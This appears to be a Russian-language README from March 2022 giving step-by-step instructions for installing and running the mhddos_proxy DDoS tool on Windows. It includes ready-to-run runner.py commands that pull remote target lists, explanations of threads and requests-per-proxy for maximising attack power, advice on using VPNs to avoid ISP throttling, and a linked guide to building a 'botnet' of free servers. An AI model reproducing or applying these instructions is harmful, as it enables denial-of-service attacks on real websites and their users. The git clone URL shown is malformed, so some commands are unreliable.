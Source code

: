 <h1 align="center">Установка mhddos_p напрямую на ваш комп</h1> 
March 28, 2022

<br/>
<br/>

ТЕСТОВИЛ ТОЛЬКО НА WINDOWS 10

🟢Пошаговые инструкции по установке mhddos_proxy на любую ОС 🟢
Windows / Linux / Mac / Android:  [ссылка](https://github.com/BionecX/mhddos_p/blob/main/docs/installation.md)

то есть Docker, который, по сути, является целой виртуальной машиной и жрет много ресурсов, не нужен вообще - 🔺 замена на python скрипт поможет снизить нагрузку на ваш процессор в 2-3 раза 

❗️Помощь(бесплатно) в поиске прокси для mhddos_p , НОВЫЙ МЕТОД ДЛЯ ВСЕХ ОС: https://github.com/BionecX/proxy_finder


❗️Авто-скрипт, который сам устанавливает все нужные файлы и запускает mhddos_proxy и proxy_finder в одном скрипте, и автоматически обновляет их: https://github.com/alexnest-ru/runner_for_windows


Анализ средства mhddos_p (что он выводит, и все его преимущества):
[ссылка](https://github.com/BionecX/mhddos_p_docs/blob/main/docs/README_analiz_sredstva_mhddos_h.md)


❗️Создание ботнета из 30+ бесплатных и автономных (работают даже при выключенном ПК) Linux-серверов: [ссылка](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5ccc)



Прежде всего, нужно установить Python3 (чтобы запускать сам скрипт) и Git (чтобы скачать все зависимости (requirements))

!!!ВСЕ ПУНКТЫ ОБЯЗАТЕЛЬНЫЕ!!!


Весь код программы открыт здесь:
https://github.com/BionecX/mhddos_p


1.Установка Python3:

Способ 1 (очень простой):

Заходим в cmd (командная строка)
Командная строка

-> Прописываем python3

 -> нажимаем Enter
Если у вас до сих пор нет python3, то Вас перекинет в Microsoft store, там нажимаете Получить/Получить/Get

Если он у вас уже есть, то будет вот так:

После получения python3 закрывает это окно терминала (команды срока)

Если через cmd (командую строку) не получилось, или у вас Python ниже 3.10 (проверить можно так python --version) – попробуйте зайти самостоятельно в Microsoft Store и найти и установить там Python3.10


!!!ТОЛЬКО ЕСЛИ С ПРЕДВАРИТЕЛЬНЫМ СПОСОБОМ НЕ ПОЛУЧИЛОСЬ:!!!
Способ 2: скачиваем python: https://www.python.org
Кликаете именно в таком порядке

Запускаете скачанный файл
Именно в таком порядке 1-ый самый важный

Дальше все по умолчанию везде кликаете Далее / Да
2. Установка Git


Для начала нужно еще установить Notepad++ (удобный редактор кода, он сгодится и после нашей победы в войне):

https://notepad-plus-plus.org/downloads/v8.2.1/ 

Когда скачали, запустили установщик и установили Notepad++ переходим к следующим пунктам


Скачиваем установщик git`a https://gitforwindows.org (эта самая ссылка на оф. сайте github`a: https://github.com/git-guides/install-git#install-git-on-windows)


Ждем пока скачается, затем запускаем скачанный файл


УСТАНАВЛИВАТЬ НУЖНО ИМЕННО ТАК:
Из списка выбрать именно Notepad++ (который вы должны скачать раньше, если нет, то закрывайте и скачивайте, затем открывайте Setup файл еще раз)
Готово
3. Устанавливаем сам скрипт mhddos_p

Открываем Мой компьютер

Ищем папку рабочего стола:

Заходим в папку Рабочего стола:

Но в выделенной области прописываем три буквы cmd:

И нажимаем Enter – откроется окно Терминала:

Далее прописываем следующую команду:

    git clone https://BionecX/mhddos_p

и нажимаем Enter

    ddos_proxy' already exists and is not empty directory. - это значит, что нужная папка уже существует - просто следуйте инструкциям в пункт 4. Запуск атаки

Произошла загрузка нужной программы
Тем нужно зайти в папку с этой программой.

    cd mhddos_p

и сразу скачиваем необходимые зависимости:

    python -m pip install -r requirements.txt

Финально должно получиться вот так:

Теперь мы можем запускать атаки:
4. Запуск атаки

После всех предыдущих пунктов в дальнейшем вам нужно будет ВЫПОЛНЯТЬ ТОЛЬКО ЭТОТ ПУНКТ:


Находим папку из mhddos_proxy на Рабочем столе:

Открываем ее и чтобы зайти в Терминал из этой папки, в поле прописываем cmd и нажимаем Enter:


В открывшемся терминале водим следующие команды:

    cd mhddos_p
    git pull origin main

Если у вас все установлена ​​последняя версия будет вот такое сообщение:

Если нет, то установит последнюю версию:

Теперь нужно установить еще раз зависимости (а вдруг они тоже обновились):

    python -m pip install -r requirements.txt


❗️Нужно установить супер-быстрый и стабильный VPN, чтобы ваш провайдер не резал трафик из-за подключения ко многим IP(прокси):
[ссылка](https://auto-ddos.notion.site/VPN-effde85923534cf7b4caa198a0ef0d23ccc)

Если вы будете без ВПН, то у вас вообще может попасть интернет на роутере, как было у меня, потому что провайдеры не любят когда из их IP идет трафик на большое количество других IP(прокси)

Другие ВПН тоже могут не подойти, потому что они могут отключаться

Наконец-то мы можем запускать атаку:

Для атаки вводим следующую команду, НАПРИМЕР:

    python runner.py -c https://raw.githubusercontent.com/alexnest-ru/targets/main/special/archive/shop/shop_lll7_url -t 5000 --rpc 3000 --http-methods GET STRESS --debug

Поздравляю, атака запустилась:
нули это нормально, особенно в начале атаки, пока скрипт "разгоняется"


Чтобы остановить атату: в открывшемся окне с атакой нажимаете Ctrl+C (или можно просто нажать на крестик и закрыть окно)


❗️Чтобы добавить ваш текущий IP (или IP подключенного VPN) к атаке вместе с прокси в конец команды приписывайте --vpn. (более подробно об этом: Для увеличения мощности атаки за счет вашего IP - добавьте в конец команды флажок --vpn, чтобы добавить ваш IP к атаке вместе с прокси (желательно использовать стабильный и быстрый VPN [ссылка](https://auto-ddos.notion.site/VPN-effde85923534cf7b4caa198a0efffccc) ) (кроме Linux-серверов [ссылка](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5cccfff) – там менять ничего не надо))) 

Например: 

    python runner.py -c https://raw.githubusercontent.com/alexnest-ru/targets/main/special/archive/shop/shop_lll7_url -t 5000 --rpc 3000 --http-methods GET STRESS --debug --vpn


5. Шаблон команды для собственных атак:


    python runner.py -c https://raw.githubusercontent.com/alexnest-ru/targets/main/special/archive/shop/shop_lll7_url -t 5000 --rpc 3000 --http-methods GET STRESS --debug

python runner.py <Цели-сайты> --http-methods <Методы> -t <Потоки> --rpc <Подключение> --debug

    python3 - оболочка/приложение, которая будет читать и выполнять код программ runner.py
    runner.py – сам скрипт атаки
    Цели-сайты - Цели при проведении атаки на одном уровне и с использованием одного метода атаки, указанного в --http-methods, можно перечислять через пробел, а можно указать как удаленный конфиг через -c URL (где каждая цель должна быть из новой строки ). В этом случае количество целей будет разделено на каждый метод равномерно от того количества, которое вы указали.
    Можно указывать в одной команде любые типы портов, например: http://, https://, tcp://, udp:// – все они будут разбиты на нужные методы, для http и https будут браться методы из перечня --http-methods , а для tcp и udp всегда используются методы TCP и UDP соответственно
    Методы - Со всеми методами можно ознакомиться на самом гитхабе
    ( https://github.com/MHProDev/MHDDoS#features-and-methods ). Все команды, которые мы готовим в нашем канале – мы готовим уже с необходимыми для атаки методами. На одном уровне атаки методы можно перечислять через пропуск. Самые распространенные методы:
    --http-methods GET STRESS
    Потоки – это количество "вредных" пакетов/запросов в количестве t* количество_ядер, отправляемых на цель. Здесь можно выкручивать по максимуму на столько, на сколько тянет ваш ПК (мониторите нагрузку в диспетчере задач, смотрим на ЦПУ и ОЗУ, в Kali Linux это зеленый и синий график соответственно). Будьте внимательны, в начале атаки нагрузка может быть минимальной, а спустя некоторое время зашкаливать. Учитывайте, что при увеличении пакетов/угрозов количество прокси-серверов может снизиться. По умолчанию 1000, по желанию – сколько влезет в вашу машину (но желательно не больше 10000). В этой команде: -t 5000
   Подключение – здесь указываем предполагаемое количество подключений одного прокси-сервера. Оптимально указывать от 1000 до 2000. Предположим, что у вас 1000 прокси-серверов, при указании подключений в количестве 1000, вы отправите 1 000 000 пакетов на вашу цель (в идеале, но определенный процент пакетов скорее всего может потеряться). Теперь оптимальное значение:
    --rpc 2000
    Также если вы подключены к VPN России можно добавить параметр --vpn , с помощью которого атака будет происходить через прокси и вместе с вашим IP (желательно, чтобы это был IP VPN)
    Например:
    python3 runner.py -c https://raw.githubusercontent.com/alexnest-ru/targets/main/special/archive/shop/shop_lll7_url -t 5000 --rpc 3000 --http-methods GET STRESS --debug --vpn




